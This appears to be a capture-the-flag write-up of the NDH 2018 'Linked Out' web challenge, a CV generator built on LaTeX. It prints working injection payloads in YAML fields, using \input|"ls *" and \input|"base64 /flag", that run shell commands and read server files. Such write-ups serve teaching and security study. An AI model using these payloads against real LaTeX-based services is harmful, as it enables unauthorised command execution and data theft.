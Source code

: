 ```yaml
---
title: Quals NDH 2018 - Linked Out
authors: cnotin
layout: writeup
---
```

Solves: 58 / Points: 300 / Category: Web
## Challenge description
> This service build an awesome curriculum vitae for you ! Test it, recruiters will enjoy it ! The developper of this chall too ;)

We have a "Curriculum Vitæ Generator" website where we can upload a little form in YAML format with all the required information.
Once the form is uploaded, a very nice resume is generated in PDF format with the provided information.

The website explains that tool it uses is *[posquit0's Awesome-CV](https://github.com/posquit0/Awesome-CV)*.

## Challenge resolution
### LaTeX injection
Here is the beginning of the sample YAML file:
```yaml
cv:
  personal_informations:
    firstname: Bruce
    lastname: Schneier
    address: 221b Baker Street, London, ENGLAND
    position: Security Expert ; Master of Internet
  contacts:
    mobile: +12 3 456 789 012
    email: bruce.schneier@it-is-not-my-real-email.com
    homepage: https://www.schneier.com/
    github: schneier-not-my-real-account
    gitlab: schneier-not-my-real-account
    linkedin: schneier-not-my-real-account
    twitter: schneierblog
    skype: schneier-not-my-real-account
    reddit: schneier-not-my-real-account
    xing: schneier-not-my-real-account
  misc:
    extrainfo: Buy one of my books!
    quote: '"Bruce Schneier knows your password before you do." --- https://www.schneierfacts.com'
[...]
```

We know that the used tool is based on LaTeX. It expects a `.tex` file with information in the following format:
```tex
\twitter{@twit}
\skype{skype-id}
\reddit{reddit-id}
\extrainfo{extra informations}
[...]
```

Our first intuition is that our inputs are simply inserted in the `.tex` file. So we could inject arbitrary LaTeX instructions.
Let's verify by trying to close an instruction then re-open it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{AAAAAAAAAA
```

The injection is successful since the generated PDF returns `AAAAAAAAAA` in the Skype field instead of `BBBBBBBBBBBBBB`:
![Linked Out injection]({{ site.url }}/assets/linkedout-injection.png){: .image }

### LaTeX injection to command execution
So we can inject LaTeX instructions: now, how to obtain the flag?
We remembered [articles about code injection in LaTeX files](https://0day.work/hacking-with-latex/). There are some prerequisites but we might get lucky.

We found a [Stack Exchange answer](https://tex.stackexchange.com/a/20566) sharing a nice compact syntax to execute shell commands and include the output in the document. Let's try it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{\input|"ls *"}%
```
It was indeed successful:
![Linked Out ls command]({{ site.url }}/assets/linkedout-command-ls.png){: .image }

### Get the flag
Extracting the flag with a `cat` command did not work. We thought that its content could create an invalid `.tex` file.
Therefore we used `base64` to obtain it encoded.
```yaml
  skype: BBBBBBBBBBBBBB}\skype{\input|"base64 /flag"}%
```
![Linked Out base64 flag]({{ site.url }}/assets/linkedout-flag-b64.png){: .image }

Decode it and get the flag:
```shell
$ echo -ne "TkRIe0FuZF9Eb25hbGRfS251dGhfY3JlYXRlZF90aGVfaVRlWH0K" | base64 -d  -
NDH{And_Donald_Knuth_created_the_iTeX}
```
